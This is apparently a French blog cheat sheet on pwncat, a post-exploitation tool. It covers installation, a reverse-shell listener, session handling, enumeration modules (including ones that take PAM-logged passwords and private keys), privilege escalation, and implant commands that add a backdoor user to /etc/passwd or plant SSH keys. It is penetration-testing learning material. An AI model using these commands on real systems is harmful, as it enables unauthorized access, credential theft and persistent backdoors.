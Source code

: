 ```yaml
---
title: Sniffing de password avec PAM 
meta_title: ""
description: Petite documentationn d'utilisation d'un fancy rev et bind handler
date: 2024-04-04T05:00:00Z
image: /images/pwncat.png
categories:
  - Outils
author: Tmax
tags:
  - Outils
  - Fiches
  - Post-exploitation
draft: false
---
```


# Introduction

[Pwncat](https://github.com/calebstewart/pwncat) est un outil de post-exploitation qui facilite l'usage des reverse shell et embarque plusieurs avantages tels que la gestion des shells stabilisés et interactifs, la désactivation de l'historique, la gestion des multi-sessions... 

Ça vaut le détour. 

Voici le lien vers la [documentation officielle](https://pwncat.readthedocs.io/en/latest/). 

# Installation 

Il existe plusieurs méthodes d'installation, notamment avec `apt`. 
Nous aborderons seulement l'installation avec `pip` en utilisant un environnement virtuel. 

```bash
sudo apt-get install python3-pip # Installation de pip

# Installation de Venv 
sudo pip3 install virtualenv
# Ou avec 
sudo apt install python3-venv 

# Creation du Venv
python -m venv /opt/pwncat

# Installer pwncat dans notre venv 
/opt/pwncat/bin/pip install pwncat-cs

# Pour autoriser l'utilisation de pwncat hors de notre Venv 
ln -s /opt/pwncat/bin/pwncat-cs /usr/local/bin
```

# Utilisation 

Pour un usage basique, voici la section "Basic usage" de la [documentation](https://pwncat.readthedocs.io/en/latest/usage.html). 

Pour ce qui est d'un simple reverse shell : 

```bash
pwncat-cs -lp 4444
```

{{< image src="images/methode_pwncat1.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

![[methode_pwncat1.png]]

L'indication **(local)** vous indique que vous êtes encore sur votre machine. Avec `CTRL + D` vous pourrez alors passer en **(remote)** et avoir accès à la machine distante. 

La commande `help` est bien détaillée, vous pouvez aussi l'utiliser pour chaque commande dispo comme `help connect` par exemple. Sinon, vous pouvez retrouver plus de détails pour chaque commande [ici](https://pwncat.readthedocs.io/en/latest/commands/index.html).  

Vous pouvez entre autres gérer plusieurs connexions en même temps, créer des backdoors et mettre en "queue" chaque connexion entrante. 

Voici la liste des commandes dispo : 

```python
  Command     Description                                                   
 ────────────────────────────────────────────────────────────────────────── 
  alias       Alias an existing command with a new name. Specifying [...]   
  back        Return to the remote terminal                                 
  bind        Create key aliases for when in raw mode. This only [...]      
  connect     Connect to a remote victim. This command is only valid [...]  
  download    Download a file from the remote host to the local host        
  escalate    Attempt privilege escalation in the current session. [...]    
  exit        Exit the interactive prompt. If sessions are active, [...]    
  help        List known commands and print their associated help [...]     
  info        View info about a module                                      
  lcd         Change the local current working directory                    
  leave       Leave a layer of execution from this session. Layers [...]    
  listen      Create a new background listener. Background listeners [...]  
  listeners   Manage active or stopped background listeners. This [...]     
  load        Load modules from the specified directory. This does [...]    
  local       Run a local shell command on your attacking machine           
  lpwd        Print the local current working directory                     
  reset       Reset the remote terminal to the standard pwncat [...]        
  run         Run a module. If no module is specified, use the [...]        
  search      View info about a module                                      
  sessions    Interact and control active remote sessions. This [...]       
  set         Set variable runtime variable parameters for pwncat           
  shortcut                                                                  
  upload      Upload a file from the local host to the remote host          
  use         Set the currently used module in the config handler     
```

Pour lister vos sessions vous pouvez 

```bash
sessions
```

puis pour choisir de cibler l'une d'entre elles 

```bash
sessions ID_decimal 
```

## Modules

Vous pouvez aussi rechercher les modules disponibles que l'on peut exécuter avec la commande 
```
run {module_name} 
```

```python
(local) pwncat$ search enum*
                                                                          Results                                                                           
                                                         ╷                                                                                                  
  Name                                                   │ Description                                                                                      
 ════════════════════════════════════════════════════════╪═════════════════════════════════════════════════════════════════════════════════════════════════ 
  enumerate                                              │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.escalate.implant                             │ Generates escalation methods based on installed implants in order to...                          
  enumerate.escalate.replace                             │ Locate execute abilities and produce escalation methods from them. This...                       
  enumerate.gather                                       │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.creds.pam                                    │ Exfiltrate logged passwords from the pam-based persistence module. This...                       
  enumerate.creds.password                               │ Search the victim file system for configuration files which may contain...                       
  enumerate.creds.private_key                            │ Search the victim file system for configuration files which may contain...                       
  enumerate.escalate.append_passwd                       │ Check for possible methods of escalation via modifying /etc/passwd                               
  enumerate.escalate.leak_privkey                        │ Find escalation methods by using file-read abilities to leak other user's...                     
  enumerate.file.caps                                    │ Enumerate capabilities of the binaries of the remote host                                        
  enumerate.file.suid                                    │ Enumerate SUID binaries on the remote host                                                       
  enumerate.misc.writable_path                           │ Locate any components of the current PATH that are writable by the current user.                 
  enumerate.software.cron                                │ Check for any readable crontabs and return their entries.                                        
  enumerate.software.screen                              │ Locate installations of the ``screen`` tool. This is useful because it may be...                 
  enumerate.software.screen.cve_2017_5618                │ Identify systems vulnerable to CVE-2017-5618                                                     
  enumerate.software.sudo.cve_2019_14287                 │ Identify systems vulnerable to CVE-2019-14287: Sudo Bug Allows Restricted...                     
  enumerate.software.sudo.rules                          │ Enumerate sudo privileges for the current user. If allowed, this module will...                  
  enumerate.software.sudo.version                        │ Retrieve the version of sudo on the remote host                                                  
  enumerate.system.aslr                                  │ Determine whether or not ASLR is enabled or disabled. :return:                                   
  enumerate.system.container                             │ Check if this system is inside a container :return:                                              
  enumerate.system.distro                                │ Enumerate OS/Distribution version information                                                    
  enumerate.system.fstab                                 │ Read /etc/fstab and report on known block device mount points.                                   
  enumerate.system.hosts                                 │ Enumerate hosts identified in /etc/hosts which are not localhost :return:                        
  enumerate.system.init                                  │ Enumerate system init service :return:                                                           
  enumerate.system.network                               │ Enumerate network interfaces with active connections and return their name...                    
  enumerate.system.process                               │ Extract the currently running processes. This will parse the process...                          
  enumerate.system.selinux                               │ Retrieve the current SELinux state                                                               
  enumerate.system.services                              │ Enumerate systemd services on the victim                                                         
  enumerate.system.uname                                 │ Enumerate standard system properties provided by the `uname` command. This...                    
  enumerate.user                                         │ Enumerate users from a linux target                                                              
  enumerate.user.group                                   │ Enumerate users from a linux target     
```

Source : https://pwncat.readthedocs.io/en/latest/modules.html

## Escalade de privilège

Il est aussi possible d'utiliser la commande `escalate` pour trouver des techniques d'élévation de privilèges, mais je ne sais pas trop ce que ça donne : 

{{< image src="images/methode_pwncat2.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

![[Pasted image 20240606151354.png]]

Et utiliser `escalate run` pour exécuter cette escalade de privilège.  

Source : https://pwncat.readthedocs.io/en/latest/privesc.html

## Implant et backdooring


```bash
#Installe une porte dérobée à l'intérieur de l'entreprise /etc/passwd
(local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat

# Installe une clé publique autorisée en tant qu'utilisateur actuel
(local) pwncat$ run implant.authorized_key key=./id_rsa

# Installe une clé autorisée en tant qu'autre utilisateur (nécessite un accès root)
(local) pwncat$ run implant.authorized_key user=john key=./id_rsa
```

Il est également possible de créer un fichier de configuration qui run ces commandes dès qu'un shell est établi, plus d'infos [ici](https://pwncat.readthedocs.io/en/latest/configuration.html#configuration-parameters) 


```
# Liste des implants installés
(local) pwncat$ run implant list

# Tentative d'escalade avec un implant local ; il sera demandé quel(s) implant(s) utiliser.
(local) pwncat$ run implant escalate

# Pour lister les implants par ID
pwncat-cs --list

# Essaye de se reconnecter à un implant
pwncat-cs {ID}
```

Source : https://pwncat.readthedocs.io/en/latest/persist.html